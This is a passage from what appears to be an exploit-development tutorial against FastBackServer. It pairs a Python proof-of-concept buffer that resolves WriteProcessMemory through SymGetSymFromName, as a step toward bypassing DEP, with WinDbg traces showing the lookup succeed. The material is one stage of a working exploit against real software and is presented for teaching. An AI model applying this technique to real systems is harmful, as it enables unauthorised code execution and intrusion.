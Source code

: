 we can update our PoC to house the name of the `WriteProcessMemory` API, that can be used to bypass DEP.

```python
# Modified psCommandBuffer to resolve WriteProcessMemory
symbol = b"SymbolOperationWriteProcessMemory" + b"\x00"  # Null-terminated string
buf += symbol + b"A" * (100 - len(symbol))               # Pad to 100 bytes
buf += b"B" * 0x100                                      # Additional padding
buf += b"C" * 0x100                                      # More padding
```

let's execute this and analyze the debugging results. the initial breakpoint is hit.

```shell
Breakpoint 0 hit
eax=ffffffff ebx=0608c418 ecx=0db5da8c edx=0db5dca0 esi=0608c418 edi=00669360
eip=0057e984 esp=0db5da30 ebp=0db5e320
```

getting ready to call `SymGetSymFromName`.

```shell
0057e984 ff15e4e76700    call dword ptr [FastBackServer!_imp_SymGetSymFromName]
```

verifying the arguments.

```shell
0:079> da poi(esp+4)     ; Examine second argument (symbol name)
0db5da8c "WriteProcessMemory"  ; Confirms our input reached here correctly
```

the input string `WriteProcessMemory` reached its destination!

we can dump the contents of the address field in the `PIMAGEHLP_SYMBOL` struct before calling the `SymGetSymFromName` API.

```shell
0:079> dd esp+8 L1       ; Get structure pointer
0db5da38 0db5dca0        ; Points to IMAGEHLP_SYMBOL structure

0:079> dds 0db5dca0+4 L1 ; Check Address field
0db5dca4 00000000        ; Initially zero - where API address will go
```

then execute the API call.

```shell
0:079> p                 ; Execute SymGetSymFromName
eax=00000001            ; Return value = TRUE (success)
ebx=0608c418 ecx=36be0505 edx=00020b40 esi=0608c418 edi=00669360
eip=0057e98a esp=0db5da3c ebp=0db5e320
```

the next instruction stores the return value.

```asm
0057e98a 898574f9ffff    mov dword ptr [ebp-68Ch], eax  ; Store return value
```

finally, the address will be returned when checked again.
